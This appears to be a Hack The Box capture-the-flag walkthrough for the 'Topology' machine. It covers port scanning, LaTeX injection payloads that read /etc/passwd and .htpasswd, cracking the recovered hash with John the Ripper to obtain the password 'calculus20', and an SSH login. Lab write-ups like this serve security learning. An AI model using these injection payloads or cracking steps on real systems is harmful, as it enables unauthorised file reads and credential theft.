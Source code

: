 ```
rustscan -a 10.10.11.217 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2848c182-a035-407c-8167-78b2790aa9ba)

```
nmap -Pn -sC -sV -p 22,80 10.10.11.217
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/986ea52b-7b18-4807-89ce-f80469c6a13f)

HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1d3e4cab-23f5-4ea8-a735-21843a42d7f9)

Latex Equation Generator
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad08b5ff-4423-4b4d-812a-11baf54aad51)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c11f8c7b-5fe3-4090-80de-432c5c73cb73)

Subdomain
```
http://latex.topology.htb/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/23789ad6-aaf8-4b16-8d3c-a1cd682b99ad)

Latex Injection LFI
```
$\lstinputlisting{/etc/passwd}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/42f0bed3-ee29-42cd-834c-155489d60216)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9f36e1dd-a7ec-4958-8954-be457431bdb2)
```
$\lstinputlisting{/var/www/dev/.htaccess}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4ae5a043-96cc-4fec-885d-ad5e9fc40c3e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/7a59670b-97b4-46fe-b381-f61626e7eb93)
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/48421c5f-fc30-48c0-a114-0c6e1b7667f8)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f59ad50d-05ab-42ff-83a5-8f8cb3e56d44)
```
Credentials:
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

Crack Password
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt  
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4c35748f-271b-4da8-bca4-3aeb6b61b715)
```
Cracked Password: calculus20
```

SSH
```
ssh vdaisley@10.10.11.217
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e79458fc-bfad-4c93-b993-6c9bf105d98a)
